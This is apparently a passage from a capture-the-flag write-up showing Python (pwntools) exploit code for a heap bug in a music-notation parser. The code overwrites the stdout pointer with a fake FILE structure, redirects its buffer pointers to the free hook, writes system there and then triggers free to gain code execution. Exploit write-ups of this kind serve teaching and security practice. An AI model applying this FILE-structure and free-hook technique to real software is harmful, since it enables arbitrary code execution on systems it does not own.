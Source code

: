 Finally stdout pointer is overwritten with a fake FILE struct stored on the heap

```py
# this patches stdout pointer :)
# first write stdin pointer and then quickly do the second and third write to restore stdout ptr and plug in null bytes

#guess = 0xdeadbeeffeedface
guess = heap_ptr + 0x2420
log.info(" guess -> " + hex(guess)  )

payload = """
SUSPEND: 1
meter: C

Style: iiiiiii
iiiiiii: Voices AAAAAA; Clefs %s

%s
""" %(  (("XX") + p64(guess)),
 		p64(system))
	    #(("X" * 3 ) + p64(stdout_ptr)), # need one more null byte
	    #(("X" * 2 ) + p64(stdout_ptr)))#, # stdout
	    #( "SUSPEND\nMS-121 123 M\nRESUME"))


upload(7,payload,False)
#pause()
gen(7)
```


Fake FILE struct's buffer pointers pointing to a free hook. Then controlled data is generated in the output stream to patch the free hook with system and then free is triggered.
